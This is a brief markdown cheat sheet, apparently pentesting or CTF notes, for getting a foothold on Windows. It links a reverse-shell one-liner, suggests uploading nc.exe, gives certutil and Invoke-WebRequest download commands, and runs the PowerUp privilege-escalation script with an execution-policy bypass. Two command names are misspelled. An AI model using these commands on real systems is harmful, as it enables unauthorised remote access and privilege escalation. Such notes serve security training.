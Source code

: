 ## For Windows

* Reverse shell for windows
    - https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
    - If you can upload any file then try to upload `nc.exe` and use that.

* To get enumeration file use
    - `certutils -urlcache -split -f URL`
    - when powershell is present
        + `Invoke-WebRequest URL -outfile file`

* Use powerups.ps1 enumeration script
    - https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1
    - Run it with `powershell.exe -ExecutionPolicy Bypass -File .\powersup.ps1`

